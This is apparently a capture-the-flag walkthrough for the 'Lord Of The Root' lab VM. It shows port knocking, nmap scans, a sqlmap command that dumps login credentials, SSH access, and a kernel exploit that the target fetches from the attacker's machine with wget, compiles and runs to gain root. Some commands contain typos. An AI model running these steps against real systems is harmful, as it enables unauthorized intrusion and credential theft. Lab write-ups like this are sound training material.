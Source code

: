 # Lord-Of-Root-walk-through

# 0. GEt The VM ip 

netdiscover -r 192.168.1.0/24

ip is 192.168.1.2

# 1. Enumeration 

nmap -sVC -Pn  -p- 192.168.1.2 --script vuln 

Only SSH is available 

# 1.2 enumerate ssh 

ssh 192.168.1.2

![image](https://user-images.githubusercontent.com/52453415/129258686-3f37d68b-d3c5-4ce0-a795-fd5d8af7d8c4.png)

# 1.3 Knock to see what happens 


nock 192.168.1.2 1 2 3

# 1.4 scan again

nmap -sVC -Pn  -p- 192.168.1.2 --script vuln 

looks like the knocking opened http service for us on port 1337 

sounds like there is directory listing on /images/


# 1.5 Enumerate Web server 

http://192.168.1.2:1337 

![image](https://user-images.githubusercontent.com/52453415/129260692-afc54a91-9944-45f9-9d2e-090e361b0c1a.png)


checking the page source , nothing

checking dir /images/

![image](https://user-images.githubusercontent.com/52453415/129261283-3f0f99ec-2d30-4938-a4e4-c8881e16acb6.png)


# 1.6 brute force for files 

using dirbuster i found ; index.php and  index.html

checking the page source for index.html 

![image](https://user-images.githubusercontent.com/52453415/129259855-9c864caf-188b-46f6-9b3f-78312d074d26.png)

i found interesting encoded line 

lets decode it using https://www.base64decode.org/


![image](https://user-images.githubusercontent.com/52453415/129260107-e8283702-0a53-456f-8ebf-590a0585b4b8.png)

decode the first part again 

![image](https://user-images.githubusercontent.com/52453415/129260228-7ee62075-bff3-4b5b-95ab-23901c2d3249.png)

we get url for login page 

the page source does not reveal any thing useful 

the page is not vulnerable to user enumeration 

# 2. Checking SQli 

using sqlmap 

sqlmap -u 'http://192.168.1.2:1337/978345210/index.php' --data='username=username&password=password&submit=' --dump -batch

i found these credentials 

![image](https://user-images.githubusercontent.com/52453415/129261439-5d72c971-3d3f-414f-b37c-54a5a524f9b9.png)

# 2.1 gaining access 

uses these plaintext creds fo smeagol i got a limitted shell

# 3. priv Esc 

sudo -l ; doesn't work 

uname -a 

from my terminals $ searchsploit for ubuntu 4.14 

![image](https://user-images.githubusercontent.com/52453415/129261918-c728c23d-2153-4c1b-87b2-f1af59c81d77.png)

cloning the exploit 

$ searchsploit -m 37292.c 

# 3.1 transfer the exploit to the target 


My terminal : python -m 

target terminal :  wget hhtp://192.168.1.3:8000/37292.c 

![image](https://user-images.githubusercontent.com/52453415/129262328-789807a8-2556-42f1-8ffa-2cf6f0da4d86.png)

gcc exploit.c -o exploit 

./exploit 

whoami 

root







